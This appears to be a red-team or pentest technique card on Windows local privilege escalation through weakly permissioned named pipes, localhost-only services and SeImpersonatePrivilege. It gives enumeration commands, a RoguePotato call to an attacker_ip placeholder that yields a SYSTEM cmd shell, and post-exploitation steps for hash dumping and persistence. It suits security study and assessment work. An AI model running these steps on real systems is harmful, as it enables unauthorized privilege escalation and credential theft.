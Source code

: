 ### Technique Name:

Communication with Processes (Named Pipes, Network Services, and Access Tokens)
### Summary:

Processes on Windows systems may expose communication channels that can be abused to gain elevated privileges. This includes:
1. Network services that are bound to loopback-only addresses (127.0.0.1 or ::1) and listen on sensitive ports.
2. Named pipes with insecure permissions that allow any user to read or write to them.
3. Services running with impersonation privileges that can be exploited via tools like RoguePotato or PrintSpoofer.

These channels can leak credentials, allow code injection, or be used to impersonate higher-privileged users (SYSTEM).
### Conditions:

- Attacker must have code execution as a low-privileged user
- One or more of the following:
  - Exposed named pipe with weak ACLs
  - Network service bound to localhost with no authentication
  - SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege available
- Tools like `accesschk`, `pipelist`, or PowerShell must be usable on the host
### Enumeration:

```powershell
# List all open TCP/UDP connections and associated PIDs
netstat -ano

# Match PIDs to process names
tasklist /fi "PID eq <PID>"

# List named pipes using Sysinternals
pipelist.exe /accepteula

# Or list named pipes using PowerShell
gci \\.\pipe\

# Check named pipe permissions (DACL)
accesschk.exe /accepteula \\.\pipe\<pipe_name> -v

# Find writable pipes
accesschk.exe -accepteula -w \\.\pipe\* -v
```
### Exploitation:

```powershell
# Identify pipes with weak permissions (e.g., WindscribeService)
accesschk.exe -accepteula -w \\.\pipe\WindscribeService -v

# If SeImpersonatePrivilege is available, exploit with RoguePotato
.\RoguePotato.exe -r <attacker_ip> -e cmd.exe -l 9999

# If the service (e.g. FileZilla) listens on localhost only
curl http://127.0.0.1:14147  # connect locally to admin panel

# Interact with Named Pipes manually using tools or custom scripts
```
### Post-Exploitation:

* Use SYSTEM shell to dump hashes (SAM, LSA, LSASS)
* Identify and close insecure named pipes
* Document exposed ports and escalate findings to blue team
* Consider persistence via service creation or user addition
* If red team op, report improper Named Pipe ACLs as critical findings
